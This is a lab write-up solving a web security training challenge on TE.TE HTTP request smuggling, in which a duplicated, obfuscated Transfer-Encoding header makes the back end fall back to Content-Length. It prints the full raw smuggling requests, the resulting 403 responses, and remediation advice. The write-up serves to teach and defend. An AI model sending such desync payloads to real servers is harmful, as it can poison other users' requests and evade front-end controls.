





## Challenge Overview
* **Challenge name**: HTTP request smuggling, obfuscating the TE header
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Obfuscate the Transfer-Encoding header to trigger desynchronization between the front-end and back-end servers, smuggling a request that mutates the next incoming request method to `GPOST` and elicits a 403 Forbidden response.

---

## 1. Core Fundamentals

The Obfuscating the Transfer-Encoding Header variant (commonly designated as TE.TE) represents an advanced HTTP Request Smuggling technique. It applies to architectures where both front-end and back-end servers nominally support `Transfer-Encoding: chunked`, but diverge in their parser implementations when the header is malformed, obscured, or duplicated.

### 1.1. Standard RFC 7230 Compliant Behavior
* **Strict Precedence Rule:** RFC 7230 section 3.3.3 mandates that if an HTTP/1.1 message contains both `Content-Length` and `Transfer-Encoding`, the `Transfer-Encoding` header must take precedence and `Content-Length` must be ignored.
* **Resilience Under Standard Configurations:** When both front-end and back-end strictly adhere to this rule, basic CL.TE and TE.CL exploits fail. Both tiers parse the message using `Transfer-Encoding: chunked`, preserving message boundary alignment.

### 1.2. Header Obfuscation and Parser Differential Techniques
* **Parser Differential:** Different web servers and reverse proxy engines implement HTTP parsing specifications with slight behavioral variations. Some parsers tolerate malformed syntax or anomalous whitespace, while others fail open or silently discard unrecognized header instances.
* **Obfuscation Variants:** Attackers manipulate the `Transfer-Encoding` header to prevent one of the two servers from recognizing it. Common techniques include duplicate headers with conflicting values, inserting whitespace prior to the colon, utilizing tab characters, or applying obsolete line-wrapping formatting.

### 1.3. Degradation Primitives: TE.CL vs. CL.TE Fallback
* **TE.CL Degradation:** If the front-end accepts a valid `Transfer-Encoding: chunked` header while the back-end encounters an obfuscated secondary header and ignores chunked processing altogether, the back-end falls back to `Content-Length`. The architecture degrades into an exploitable TE.CL scenario.
* **CL.TE Degradation:** Conversely, if the front-end overlooks the obfuscated header and enforces `Content-Length`, while the back-end processes `Transfer-Encoding`, the system degrades into a CL.TE vulnerability.

---

## 2. Attack Architecture / Threat Model

In this target environment, duplicating the `Transfer-Encoding` header with an invalid secondary value induces the back-end to fall back to `Content-Length`, degrading the system into a TE.CL desynchronization flaw.

```text
[Attacker]
    │
    │ Sends request containing:
    │ Content-Length: 4
    │ Transfer-Encoding: chunked
    │ Transfer-Encoding: tu4nki3t
    │ (Body contains chunk 5a enclosing GPOST)
    ▼
[Front-end Server]
    │ Recognizes first Transfer-Encoding: chunked
    │ Reads entire chunk 5a and terminating chunk 0\r\n\r\n
    │ Forwards entire packet to Back-end over shared TCP connection
    ▼
[Back-end Server]
    │ Encounters Transfer-Encoding: tu4nki3t -> Unrecognized, ignores TE
    │ Falls back to Content-Length: 4
    │ Reads only first 4 bytes ('5a\r\n') as body of request 1 -> Responds 200 OK
    │ Remaining body (GPOST / HTTP/1.1...) lingers in TCP socket buffer
    ▼
[Subsequent client request]
    │ Arrives on the same TCP connection
    │ Back-end reads socket buffer first: GPOST becomes prefix of new request
    ▼
[Back-end responds 403 Forbidden - "Unrecognized method GPOST"]
```

### 2.1. Attack Execution Flow
1. **Step 1 - Dispatching Obfuscated Headers:** The attacker issues an HTTP POST request declaring `Content-Length: 4` alongside two consecutive `Transfer-Encoding` headers: the first specifying standard `chunked`, and the second declaring an unrecognized value (`tu4nki3t`). The body includes chunk `5a` encapsulating the smuggled `GPOST` request and ends with `0\r\n\r\n`.
2. **Step 2 - Front-end Chunk Parsing:** The front-end evaluates the initial `Transfer-Encoding: chunked` header, reads all chunks through the terminating chunk `0`, and forwards the complete payload over the pooled internal connection.
3. **Step 3 - Back-end Content-Length Fallback:** The back-end parses the headers but encounters `Transfer-Encoding: tu4nki3t`. Failing to resolve the unsupported encoding, it strips or ignores chunked mode and falls back to evaluating `Content-Length: 4`.
4. **Step 4 - Buffer Remainder:** The back-end consumes only the first 4 bytes (`5a\r\n`), concludes request processing, and issues a 200 OK response. The remaining body beginning with `GPOST / HTTP/1.1...` remains stranded in the back-end socket buffer.
5. **Step 5 - Smuggled Request Execution:** When the next client request arrives on the connection, the back-end prepends the buffered `GPOST` string to the incoming request line, processing it as a `GPOST` invocation.
6. **Step 6 - Triggering Rejection:** The back-end rejects the invalid method with an `HTTP 403 Forbidden` response and an `Unrecognized method GPOST` message.

### 2.2. Root Cause Analysis and Preconditions
* **Parser Inconsistency:** Divergent parsing heuristics between front-end and back-end components when handling multiple or malformed `Transfer-Encoding` headers.
* **Insecure Parser Fallback:** The back-end fails open by falling back to `Content-Length` upon encountering an unrecognized `Transfer-Encoding` header rather than terminating the transaction with an `HTTP 400 Bad Request`.
* **Perimeter Header Pass-Through:** The front-end fails to sanitize or canonicalize ambiguous headers before multiplexing the request across shared backend TCP streams.

---

## 3. Vulnerability Exploitation

The vulnerability assessment was conducted through Burp Suite Repeater in three phases: establishing baseline compliance, discovering the parser differential via obfuscation, and executing the `GPOST` smuggling payload.

> [!NOTE]
> **Burp Repeater Protocol Configuration:**
> TE.TE exploitation demands raw control over HTTP/1.1 textual headers. Within Burp Suite Repeater, ensure the protocol is set to `HTTP/1.1` under **Request attributes** in the **Inspector** panel, and uncheck **Update Content-Length** in the Repeater menu to maintain exact byte alignment.

### 3.1. Verifying Default Server Behavior
Send a standard POST request containing both `Content-Length: 3` and `Transfer-Encoding: chunked`:

```http
POST / HTTP/1.1
Host: 0aa9009c0476810a868f11b000b1009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

1
A
0

```

Behavioral analysis:
* **Hypothetical Content-Length Handling:** If either server processed by `Content-Length: 3`, it would consume only `1\r\n` (3 bytes) and leave `A\r\n0\r\n\r\n` in the buffer, causing errors on subsequent requests.
* **Observed Reality:** The server immediately returns `HTTP/1.1 200 OK`, and subsequent requests proceed without desynchronization. This confirms that both tiers strictly comply with RFC 7230 by default, rendering basic CL.TE and TE.CL vectors ineffective.



### 3.2. Probing Parser Differential via Header Obfuscation
Introduce a duplicate, malformed `Transfer-Encoding` header to test for parser divergence:

```http
POST / HTTP/1.1
Host: 0aa9009c0476810a868f11b000b1009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: tu4nki3t

1
A
0

```

Dispatch the first request, which yields `HTTP/1.1 200 OK`. Dispatch a second request immediately over the same connection. The back-end responds with `403 Forbidden`:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 28

"Unrecognized method A0POST"
```

Divergence analysis: Due to `Transfer-Encoding: tu4nki3t`, the back-end abandons chunked parsing and falls back to `Content-Length: 3`. It reads only `1\r\n`, leaving `A\r\n0\r\n\r\n` stranded in the socket buffer. The next request line is prepended with this remainder, becoming `A0POST / HTTP/1.1`. This confirms that the obfuscation degrades the system into a TE.CL vulnerability.



### 3.3. Constructing the Exploit Payload and Smuggling GPOST
With the parser differential validated, construct the complete payload to smuggle a `GPOST` request prefix:

```http
POST / HTTP/1.1
Host: 0aa9009c0476810a868f11b000b1009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: tu4nki3t

5a
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

A
0

```

Payload anatomy:
* **Front-end Processing:** The front-end parses chunk `5a` (90 bytes) and terminating chunk `0`, relaying the full payload to the backend.
* **Back-end Processing:** The back-end falls back to `Content-Length: 4`, consuming only `5a\r\n`. Everything from `GPOST / HTTP/1.1` onward remains buffered in the socket queue.

Sending the exploit request yields an `HTTP/1.1 200 OK` response.



### 3.4. Triggering Method Poisoning and Verification
Send a follow-up request on the same connection. The back-end reads the lingering socket buffer, encounters the `GPOST` method, and rejects the request with `403 Forbidden`:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```



The application confirms the execution of the smuggled `GPOST` method, marking the challenge as solved.



---

## 4. Remediation Strategies

To defend against header obfuscation and parser differential attacks, engineering teams must implement robust framing controls:

### 4.1. End-to-End HTTP/2 Deployment
* **Binary Framing Layer:** Transition to end-to-end HTTP/2 across external and internal proxy boundaries. HTTP/2 eliminates text-based framing headers by embedding stream and payload lengths directly in binary frames.
* **Protocol Downgrade Hardening:** When reverse proxies terminate HTTP/2 and downgrade to HTTP/1.1 back-ends, strictly validate that incoming frames translate into unambiguous HTTP/1.1 representations, dropping any request containing malformed headers.

### 4.2. Strict Header Validation and Front-End Normalization
* **Strict Syntax Enforcement:** Configure reverse proxies to reject any request containing multiple `Transfer-Encoding` headers or malformed field values with an `HTTP 400 Bad Request`.
* **Header Normalization:** Canonicalize all outgoing requests at the reverse proxy layer by dechunking bodies and forwarding requests with a single authoritative `Content-Length` header.

### 4.3. Secure Back-End Parsing Configurations
* **Eliminate Insecure Fallbacks:** Configure back-end parsers to fail closed. If an unsupported or invalid `Transfer-Encoding` value is encountered, the back-end must reject the request immediately rather than falling back to `Content-Length`.
* **Internal Connection Isolation:** Disable backend connection reuse or partition connection pools by authenticated client context to isolate residual socket data.
